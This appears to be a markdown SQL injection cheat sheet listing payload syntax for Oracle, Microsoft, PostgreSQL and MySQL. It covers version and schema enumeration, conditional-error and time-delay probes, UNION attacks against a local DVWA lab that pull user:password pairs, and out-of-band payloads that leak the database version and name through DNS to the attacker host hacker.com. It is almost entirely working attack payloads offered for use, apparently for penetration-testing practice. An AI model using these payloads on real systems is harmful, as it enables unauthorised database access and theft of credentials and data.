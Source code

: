#### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


#### union statements

*web app*

```SELECT first_name, last_name FROM users UNION SELECT username, password FROM login;```

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%3B--*

```User ID: 1’ UNION SELECT 1;- -``` *no data different number of columns*

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1,2%3B--*

```User ID: 1’ UNION SELECT 1,2;- -``` *returns data (number of columns match)*

-----


#### table/column enumeration

*extract list of tables*

```1' UNION SELECT 1,table_name FROM information_schema.tables;- -```

*extract column names*

```1' UNION SELECT 1,column_name FROM information_schema.columns;- -```

*concat and extract data*

```1' UNION SELECT 1,concat(user,':',password) FROM users;- -```

-----


#### out of band

*database version*

```1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));```

*database name*

```1’;select load_file(concat('\\\\',database(),'.hacker.com\\s.txt'));```

-----

